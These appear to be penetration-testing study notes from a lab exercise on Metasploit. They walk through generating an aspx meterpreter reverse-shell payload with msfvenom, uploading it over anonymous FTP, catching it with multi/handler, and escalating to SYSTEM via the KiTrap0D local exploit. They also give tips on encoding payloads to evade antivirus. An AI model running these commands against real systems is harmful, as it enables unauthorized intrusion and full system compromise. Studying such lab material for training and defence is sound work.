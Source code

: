 ### MSFVenom Basics

- **MSFVenom**: Combines MSFPayload & MSFEncode for generating customizable payloads.
- **Use**: Create shellcode, clean it, and encode to avoid errors or detection.
- Modern AVs use heuristic analysis, making evasion harder.

### Generating Payloads

1. **FTP Exploit Scenario**:
    
    - Open FTP (port 21), anonymous login enabled.
    - Files in FTP root accessible via web `/uploads` directory.
    - Upload `.aspx` reverse shell.
2. **Generate Payload**:
    
```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
    ```
    
3. **Trigger Payload**:
    
    - Upload `reverse_shell.aspx` via FTP.
    - Access: `http://10.10.10.5/reverse_shell.aspx`.

---

### Multi/Handler Listener

- **Setup Listener**:
    
    ```bash
    msfconsole
    use multi/handler
    set LHOST 10.10.14.5
    set LPORT 1337
    run
    ```
    
- Reverse TCP connection received upon triggering the payload.

---

### Local Exploit Suggester

- **Purpose**: Find privilege escalation options post-exploitation.
- **Usage**:
    
    ```bash
    search local exploit suggester
    use post/multi/recon/local_exploit_suggester
    set SESSION 2
    run
    ```
    
- Example Results:
    - `bypassuac_eventvwr`: Requires admin group.
    - `ms10_015_kitrap0d`: Exploitable for SYSTEM privileges.

---

### Privilege Escalation: KiTrap0D

1. **Search & Use Exploit**:
    
    ```bash
    search kitrap0d
    use exploit/windows/local/ms10_015_kitrap0d
    set SESSION 3
    set LPORT 1338
    run
    ```
    
2. **Outcome**:
    
    - Exploits Windows kernel for SYSTEM privileges.
    - Meterpreter session under `NT AUTHORITY\SYSTEM`.

### Tips

- For unstable sessions, try encoding payloads.
- Avoid HTML in payloads to keep web responses blank.